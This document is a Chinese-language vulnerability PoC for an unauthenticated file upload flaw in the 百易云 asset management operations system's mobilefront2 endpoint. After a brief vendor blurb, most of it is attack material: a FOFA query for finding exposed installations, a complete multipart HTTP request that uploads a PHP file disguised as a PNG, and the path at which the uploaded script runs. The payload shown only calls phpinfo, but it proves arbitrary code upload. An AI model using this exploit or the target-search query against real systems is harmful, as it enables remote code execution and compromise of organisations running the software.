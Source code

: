 # 资产管理运营系统mobilefront2前台文件上传漏洞
湖南众合百易信息技术有限公司（简称：百易云）成立于2017年是一家专注于不动产领域数字化研发及服务的国家高新技术企业，公司拥有不动产领域的数字化全面解决方案、覆盖住宅、写字楼、商业中心、专业市场、产业园区、公建、后勤等多种业态、通过数字化帮助企业实现数字化转型，有效提高公司管理水平及业务办理效率、降低运营成本，公司自成立以来，已帮助众多企业实现数字化转型。资产管理运营系统mobilefront2前台文件上传漏洞

# fofa
```javascript
body="media/css/uniform.default.css" && body="资管云"
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1721891230963-ab71a358-6ed2-4ca8-9c97-c78fd2421899.png)

## poc
```java
POST /mobilefront/c/2.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 35827

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file1"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
-----------------------------289666258334735365651210512949--
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1725009158273-6ced2659-9820-4f50-bc55-55e18fd6b2d5.png)

```java
/mobilefront/c/images2/17250090851.php
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1725009187757-3a3a5fd4-f025-4ce9-9fa6-1834f403cb61.png)

